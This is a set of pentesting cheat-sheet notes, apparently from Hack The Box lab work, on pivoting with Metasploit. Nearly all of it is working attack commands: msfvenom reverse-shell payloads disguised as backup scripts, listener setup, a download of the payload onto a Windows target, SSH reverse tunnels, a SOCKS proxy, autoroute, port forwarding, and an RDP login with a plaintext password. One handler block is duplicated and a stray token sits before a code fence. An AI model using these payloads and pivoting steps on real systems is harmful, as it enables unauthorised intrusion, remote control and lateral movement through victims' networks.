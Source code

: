 
#### Creating a Windows Payload with msfvenom (revshell windows)

```shell-session
Tachipy@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
#### Creating Payload for Ubuntu Pivot Host (revshells linux)

```shell-session
Tachipy@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.253 -f elf -o backupjob LPORT=8080
```
#### Configuring & Starting the multi/handler
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000

```
#### Transferring Payload to Pivot Host

```shell-session
Tachipy@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```
#### Starting Python3 Webserver on Pivot Host

chm```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload from Windows Target

```powershell-session
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
#### Using SSH -R

```shell-session
Tachipy@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
#### Ping Sweep

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```


## MSFConsole SOCKS Forwarding
#### Configuring MSF's SOCKS Proxy (instead of ssh Port Fowarding - works only post exploit)

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options
```
#### Confirming Proxy Server is Running

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs
```
#### Adding a Line to proxychains.conf if Needed

```shell-session
socks4 	127.0.0.1 9050
```
#### Creating Routes with AutoRoute

```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

OR
  
Creating Routes with AutoRoute

```shell-session
meterpreter > run autoroute -s 172.16.5.0/23
```

#### Listing Active Routes with AutoRoute

```shell-session
meterpreter > run autoroute -p
```

#### Testing Proxy & Routing Functionality


```shell-session
Tachipy@htb[/htb]$ proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
```

## MSFConsole Port Forwarding (post exploit)
#### Creating Local TCP Relay
```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
#### Connecting to Windows Target through localhost
```shell-session
Tachipy@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
## MSFConsole Reverse Port Forwarding Rules

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
#### Configuring & Starting multi/handler
```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```
```shell-session
meterpreter > bg

[*] Backgrounding session 1...
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081 
LPORT => 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:8081 
```